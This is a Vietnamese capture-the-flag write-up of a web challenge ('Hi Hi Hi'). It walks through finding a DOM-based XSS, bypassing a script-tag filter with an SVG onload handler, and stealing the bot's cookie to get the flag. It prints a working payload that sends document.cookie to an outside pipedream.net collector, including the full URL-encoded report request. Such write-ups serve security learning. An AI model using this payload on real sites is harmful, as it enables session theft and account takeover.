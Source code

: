 # Web
## 1.Hi Hi Hi
    http://146.190.115.228:20109
### Solution:
+ Mình nhập thử text `hacked` thì thấy hiện trên Dom nên mình đoán có thể là lỗi xss_dom_based:
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325544380_1539785776490524_506576420518357102_n.png?stp=dst-png_p403x403&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=mxRJjvm2h5sAX-IFnMw&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdShnEbKx5Gp4lBumSBFoVxAwb74bLspb0fMNVfKDYhvdw&oe=63EDEAC8)
+ Mình thử nhập `<script>alert(10)</script>` thì bị filter
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325232288_1517370485416235_7328303388423511686_n.png?stp=dst-png_s240x240&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=H8c6WsiYx8oAX-QqT_I&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRiX6GujoIBAJpe-w_pNUJMuDinPcWTvP6VU6nypt-5YA&oe=63EDEFAB)
+ Sau mình dùng burpsuite thì thấy message in ra nằm trong thẻ div:
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/324403300_562610902450716_1189522020715437705_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=6yIEw5U1lVIAX9zld-t&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTY0ssYhl3oZNB1qfBO3-_ceuEbpJthnSPDJ7RMv_YsZg&oe=63EDE9DC)
+ Mình thử dùng thẻ svg `<svg onload="alert(10)"/>` thì được thật:
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325477432_2098078310381765_4736637555871183436_n.png?stp=dst-png_s320x320&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=jKu7GXo4pP8AX9qvg-l&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSkixswTyARzDg7zpDQLwZu4b0kxf1lCMFazZyQjhCN2A&oe=63EDF35D)
+ Nên mình thử lấy cookie của máy mình `<svg onload="window.location='https://eoudjoqqnbfym00.m.pipedream.net/?cookie='.concat(document.cookie)"/>` thi get duoc cookie:
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/323534900_8642520609151521_3244213864135894936_n.png?stp=dst-png_p206x206&_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=lRuhKcBSIhoAX97nNtA&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQ6GC-6hq-578_lPfn9EAdr3iu_mZKfmt4P1PExbJeDzA&oe=63EDCE99)
+ Nên mình thử gửi report luôn payload:
`http://127.0.0.1:13337/?message=http://146.190.115.228:20109/?message=%3Csvg+onload%3D%22window.location%3D%27https%3A%2F%2Feoudjoqqnbfym00.m.pipedream.net%2F%3Fcookie%3D%27.concat%28document.cookie%29%22%2F%3E` thì nhận được flag.
![alt](https://scontent.xx.fbcdn.net/v/t1.15752-9/325683778_853163225933721_2454076518486329042_n.png?stp=dst-png_p206x206&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=P1Ocdj5eECoAX8E_sJb&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQxmVbprZ3IDsyaHAJItwRZj36LoTcpkwy5tE0aWTvcgg&oe=63EDD4F2)
> Flag: KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}


